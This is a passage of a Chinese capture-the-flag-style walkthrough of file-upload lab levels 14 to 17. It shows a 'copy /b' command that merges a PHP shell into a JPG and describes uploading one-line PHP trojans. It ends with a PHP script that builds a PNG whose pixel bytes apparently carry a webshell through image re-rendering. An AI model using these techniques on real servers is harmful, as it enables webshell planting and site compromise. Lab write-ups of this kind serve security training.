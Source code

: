 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201220155459675.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1NTg0MTU5%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## 第十四关 文件头检测

这题是上传图片马，但是想要利用图片马还需要结合文件包含漏洞，所以本题只需要上传三种图片格式的文件码就行了。

制作图片马方法：

    copy normal.jpg /b + shell.php /a webshell.jpg
    
        

直接通过抓包改包也可以直接上传只修改了后缀的一句话木马php文件。

## 第十五关 getimagesize()类型验证

通过getimagesize()函数来实现对文件类型的识别判断。也就是说用burpsuit改包的方法操作就复杂了，直接合成一张木马图上传即可(与十四相同)

## 第十六关 exif\_imagetype()检测

通过函数exif\_imagetype()函数获得图片文件的类型，从而实现文件白名单的过滤操作。不能抓包改包实现，依旧使用图片马合成。

## 第十七关 二次渲染

在将图片上传成功后，使用文件包含来使用一句话木马，打开后发现，没有一句话木马。-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201220165724277.png)-
用文件包含漏洞解析发现是并没有成功。

将图片下载下来放到winhex中和我们上传的一句话图片木马进行比较，找相同的地方并且修改为自己的一句话。

再对新修改的一句话图片木马上传，上传成功。

图片马二次渲染绕过-
1、gif图片-
对于gif图片，gif图片的特点是无损（修改图片后，图片质量几乎没有损失），我们可以对比上传前后图片的内容字节，在渲染后不会被修改的部分插入木马。对比工具可以使用burp，也可以使用010编辑器（更直观一点）

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201220174842907.png)

    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
               0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
               0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
               0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
               0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
               0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
               0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
               0x66, 0x44, 0x50, 0x33);
    $img = imagecreatetruecolor(32, 32);
    for ($y = 0; $y < sizeof($p); $y += 3) {
       $r = $p[$y];
       $g = $p[$y+1];
       $b = $p[$y+2];
       $color = imagecolorallocate($img, $r, $g, $b);
       imagesetpixel($img, round($y / 3), 0, $color);
    }
    imagepng($img,'./1.png');
    ?>
    